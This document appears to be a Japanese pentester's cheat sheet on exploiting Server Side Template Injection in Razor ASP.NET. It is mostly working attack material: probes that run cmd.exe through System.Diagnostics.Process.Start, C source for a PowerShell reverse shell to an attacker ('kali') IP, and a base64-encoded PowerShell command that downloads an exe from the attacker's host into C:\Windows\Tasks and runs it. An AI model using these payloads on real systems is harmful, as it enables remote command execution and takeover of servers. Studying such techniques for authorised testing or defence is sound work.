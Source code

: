 # Server Side Template Injection

Razor ASP.NET

## 脆弱性診断

    ``` c#
        //画面に 49 が返ってくればOK
        @{7*7}
        @() 
        @("{{code}}") 
        //下の方法でいろんなコマンドが実行できる
        @System.Diagnostics.Process.Start("cmd.exe","コマンド");
    ```

## Exploit

* reverse shell
  * msfvenomでexeファイルを作成
  * 下のcのソースを使ってexeを作成して転送(以外と万能)

```c
    #include <windows.h>
    #include <stdio.h>

    int main(){
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0;
    }
```

  * アプリケーション上で実行させるコマンドの生成

``` powershell
    $command = ' iwr -uri http://<kali ip>/XXX.exe -OutFile C:\Windows\Tasks\XXX.exe; C:\Windows\Tasks\XXX.exe'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
```

    
作成後はファイル転送してncで待ち受け

  * 作成したコードを貼り付けて実行

``` c#
    @System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc
    IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
```
